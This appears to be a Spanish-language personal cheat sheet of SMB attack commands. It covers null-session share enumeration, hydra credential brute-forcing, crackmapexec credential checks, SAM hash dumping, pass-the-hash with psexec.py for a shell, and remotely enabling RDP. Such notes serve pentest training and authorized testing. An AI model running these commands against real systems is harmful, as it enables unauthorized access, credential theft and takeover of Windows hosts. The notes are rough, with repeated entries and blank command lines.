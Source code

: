 # SMB ❮❯

Tags: #SMB #Comandos #Windows #Servidor 

```bash
❯ smbclient -L ❮IP❯                   # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
```

```bash
❯ smbclient -L ❮IP❯ -N                # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
```

```bash
❯ smbmap -H ❮IP❯                      # Herramienta elternativa para ver si nos reporta algo mas y nos reporta los permisos (WRITE, READ)
```

```bash
❯ smbclient -L //❮IP❯/❮Dir❯ -N        # Nos conectaremos a una carpeta con el uso de un null sesion (sin credencial alguna)

# Una vez adentro podriamos ejecutar los siguientes comandos 
	❯ dir                            # Mirar el contenido del directorio
	❯ put ❮File❯                     # Para subir un archivo al dir SMB 
	❯ get ❮File❯                     # Para descargar un archivo
```

```bash
❯ crackmapexec smb ❮IP❯               # Para listar recursos compartidos de Windows
```

```bash
❯ crackmapexec smb ❮IP❯ --shares      # Para listar los recursos de otra manera, pero aveces no funciona
```

```bash
❯ crackmapexec smb ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯      # Para el servicio 445/tcp smb abierto podemos utilizar el siguiente comando para saber si tenemos credenciales validas, por lo que si nos muestra un (+) quiere decir que si son validas, ademas de que nos da informacion de lo que hay en ese servico (nombre, Window 10.0, dominio, signing=true)(u=user, p=password) Este comando es usado para validar aunque tenga mas aplicaciones.
```

```bash
❯ crackmapexec winrm ❮IP❯ -u ❮‘user’❯ -p ❮‘password’❯    # Despues de saber que las credenciales son validas con crackmapexec, podemos utilizar el puerto de winrm para saber si podemos entrar, pero antes debemos saber si el usuario esta en el grupo Remote management users, para saber si pertenece nos debe poner un (Pwn3d!) y asi podernos autenticar.
```



- Comando -> **hydra -L user.list -P password.list smb://< IP>** Para ver si esos usuarios y passwd son validos

 **sudo apt-get -y install crackmapexec** Para instalar crackmapexec. CrackMapExec currently supports remote authentication using MSSQL, SMB, SSH, and WinRM.

- Comando -> **crackmapexec < proto> < target-IP> -u < user or userlist> -p < password or passwordlist>**
- Comando -> 
- Comando -> 
- Comando -> **crackmapexec smb {ip_targeted} -u {‘user’} -p {‘password’}** Para el servicio **445/tcp smb** abierto podemos utilizar el siguiente comando para saber si tenemos credenciales validas, por lo que si nos muestra un **(****+****)** quiere decir que si son validas, ademas de que nos da informacion de lo que hay en ese servico (nombre, Window 10.0, dominio, signing=true)(u=user, p=password) Este comando es usado para validar aunque tenga mas aplicaciones.

- Comando -> **crackmapexec smb < IP TARGET> -u <‘USER’> -p <‘PASSWORD’> --sam** Podremos listar el hash del usuario administrador y del resto que existan en el sistema, con los que podemos llegar a aplicar pass de hash  
- Comando -> **crackmapexec smb < IP TARGET> -u <‘USER’> -H <‘HASH’>** Con este comando verificamos que el usuario y su hash son validos y si es asi nos pondra un [+] Pwn3d!.
- Comando -> **psexec.py WORKGROUP/Administrator@< IP> -hashes <'HASH'>** Podremos ganar acceso al sistema y nos lanzara una cmd ya que estariamos haciendo un Pass de Hash 

- Comando -> **crackmapexec smb < IP TARGET> -u <‘USER’> -H <‘HASH’> -M rdp -o action=enable** Podemos habilitar el RDP puerto 3389 

- Comando -> **smbclient -U user \\\\\\\\10.129.42.197\\\\SHARENAME** Nos permite ver el contenido de shares, uploads, download files si el privilegio nos lo permite
- Comando -> 
- Comando -> **smbmap -H** **{ip_targeted}** Herramienta elternativa para ver si nos reporta algo mas
- Comando -> **smbmap -H** **{ip_targeted} -u 'null'** Herramienta elternativa para ver si nos reporta algo mas haciendo uso de un null sesion (sin credencial alguna)


- Comando -> **crackmapexec winrm {ip_targeted} -u {‘user’} -p {‘password’}**
Despues de saber que las credenciales son validas con crackmapexec, podemos utilizar el puerto de winrm para saber si podemos entrar, pero antes debemos saber si el usuario esta en el grupo **Remote management users**, para saber si pertenece nos debe poner un (Pwn3d!) y asi podernos autenticar.

  

